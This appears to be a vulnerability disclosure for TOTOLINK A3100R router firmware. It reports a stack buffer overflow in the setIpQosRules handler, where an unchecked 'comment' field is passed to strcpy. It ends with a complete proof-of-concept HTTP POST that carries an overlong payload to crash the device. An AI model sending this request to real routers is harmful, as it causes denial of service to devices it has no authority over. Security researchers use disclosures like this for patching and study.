





# firewall.so setIpQosRules stack buffer overflow

## A3100R_Firmware	 
version:V4.1.2cu.5050_B20200504，V4.1.2cu.5247_B20211129

## Description:

The setIpQosRules function in the firewall.so module does not filter the "comment" parameter, and a stack overflow occurs when strcpy is performed

## Source:
you may download it from : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html


## Analyse:
The program reads a user inputed named "comment" in users's POST request and uses the input immediately,without checking it's length ,which can lead to buffer overflows bugs in the following strcpy function.




So by Posting proper data to topicurl:"setting/setIpQosRules",the attacker can easily perform a Deny of service Attack.

## POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 363

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/firewall/qos.asp?timestamp=1649994888415

Cookie: SESSION_ID=2:1588588113:2


{"topicurl":"setting/setIpQosRules","ipStart":"192.168.0.22","ipEnd":"192.168.0.22","upBandwidth":"2222","dwBandwidth":"2222","comment":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb"}
```




